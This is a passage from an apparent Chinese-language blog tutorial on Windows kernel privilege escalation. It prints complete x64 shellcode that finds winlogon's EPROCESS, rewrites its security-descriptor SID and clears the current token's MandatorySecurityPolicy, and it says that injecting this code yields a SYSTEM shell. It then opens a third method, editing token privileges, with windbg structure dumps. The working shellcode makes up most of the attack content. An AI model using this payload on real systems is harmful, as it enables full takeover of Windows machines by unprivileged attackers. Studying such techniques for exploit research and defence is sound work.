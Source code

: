```assembly
```

提权成功。

![](https://pic.wonderkun.cc//uploads/note/20210822164005.png)

### 写shellcode

不再解释了，直接贴一下shellcode吧。

```assembly
mov rax, [gs:0x188]                  ;stores KTHREAD value
mov rax, [rax+0x220]                 ;stores EPROCESS as an offset to KTHREAD
mov rcx, rax                         ;stores EPROCESS in rcx
mov rax, [rax+0x2f0]                 ;stores the next linked list pointer into rax
procloop:
  lea rbx, [rax-0x2f0]               ;stores EPROCESS address in rbx
  mov rax, [rax]                     ;stores  linked list pointer into rax
  add rbx, 0x450                     ;Get EPROCESS's ImageFileName
  cmp dword [rbx], 0x6c6e6977        ;compare it to "lniw" (winl)
  jne procloop                       ;if not equal repeat the drill
sub rbx, 0x450                       ;get EPROCESS of winlogon in rbx
sub rbx, 0x30                        ;get object_header
add rbx, 0x28                        ;get SecurityDescriptor
mov rax, [rbx]                       ;save SecurityDescriptor in rax
and rax, 0x0FFFFFFFFFFFFFFF0         ;zero SecurityDescriptor last 4 bits.
add rax, 0x48                        ;get the ACL[0] SID 
mov byte [rax], 0x0b                 ;Change it to 0x0b (This Organization)
add rcx, 0x360                       ;Access current process token structure
mov rax, [rcx]                       ;save token in rax
and rax, 0x0FFFFFFFFFFFFFFF0         ;remove the last nibble (fast reference)
add rax, 0x0d4                       ;Access the MandatorySecurityPolicy
mov byte [rax], 0                    ;change it to zero.
ret
```

在kscldr.exe中添加注入的代码就可以成功的弹出system权限的shell。

![](https://pic.wonderkun.cc//uploads/note/20210822190637.png)

## 方法三：直接编辑权限

### windbg调试

此方法比替换token的更进一步，直接修改token中的`SEP_TOKEN_PRIVILEGES`以达到权限提升的目的，此方法有一个好处是被修改进程的用户名等信息不会改变，只是权限改变了。

我们看一下具体的数据结构：

```assembly
1: kd> dt _token 
nt!_TOKEN
   +0x000 TokenSource      : _TOKEN_SOURCE
   +0x010 TokenId          : _LUID
   +0x018 AuthenticationId : _LUID
   +0x020 ParentTokenId    : _LUID
   +0x028 ExpirationTime   : _LARGE_INTEGER
   +0x030 TokenLock        : Ptr64 _ERESOURCE
   +0x038 ModifiedId       : _LUID
   +0x040 Privileges       : _SEP_TOKEN_PRIVILEGES
   ......
  
1: kd> dt _SEP_TOKEN_PRIVILEGES 
nt!_SEP_TOKEN_PRIVILEGES
   +0x000 Present          : Uint8B
   +0x008 Enabled          : Uint8B
```